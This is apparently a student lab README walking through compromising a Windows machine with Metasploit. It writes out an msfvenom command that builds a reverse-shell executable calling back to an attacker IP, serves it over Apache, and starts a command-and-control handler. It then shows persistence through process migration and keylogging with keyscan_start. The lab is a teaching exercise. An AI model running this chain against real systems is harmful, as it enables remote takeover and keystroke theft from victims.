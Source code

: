 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![serverside](/img6/m1.png)

! Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![serverside](/img6/m2.png)

copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start Check the status of apache2

![serverside](/img6/m3.png)

Invoke msfconsole:

![serverside](/img6/m4.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![serverside](/img6/m5.png)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![serverside](/img6/m6.png)

WINDOWS : On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads

![serverside](/img6/m7.png)

![serverside](/img6/m8.png)

## COME BACK TO PARROT:

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![serverside](/img6/m9.png)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![serverside](/img6/m10.png)

## WINDOWS OUTPUT :

OUTPUT :

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT :
![serverside](/img6/m12.png)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
